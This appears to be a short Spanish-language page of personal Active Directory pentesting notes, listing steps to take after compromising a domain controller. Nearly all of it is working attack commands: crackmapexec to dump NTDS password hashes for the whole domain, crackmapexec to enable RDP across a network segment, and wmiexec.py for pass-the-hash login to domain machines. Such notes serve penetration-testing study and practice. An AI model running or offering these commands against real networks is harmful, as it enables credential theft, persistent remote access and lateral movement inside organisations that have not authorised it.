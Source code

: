 # Cosas que hacer despues de comprometer el DC

## Dumpear el hash ntds de todos los equipos.
```
crackmapexec smb <ip_DC> -u 'Administrator' -p 'P@$$w0rd!' --ntds
```
[Ver ejemplo](/Apuntes-AD/Images/18.md)

## Activar la conexión por rdp en todos los equipos.
```
crackmapexec smb <segmento_red> -u 'Administrator' -p 'P@$$w0rd!' -M rdp -o action=enable
```
[Ver ejemplo](/Apuntes-AD/Images/19.md)

## Pass The Hash
Esto te permitirá conectarte a los equipos del dominio sin proporcionar contraseña, hay varias herramientas para ello como wmiexec.py.
```
wmiexec.py <dominio>/<usuario>@<ip> -hashes <hash_ntds>
```

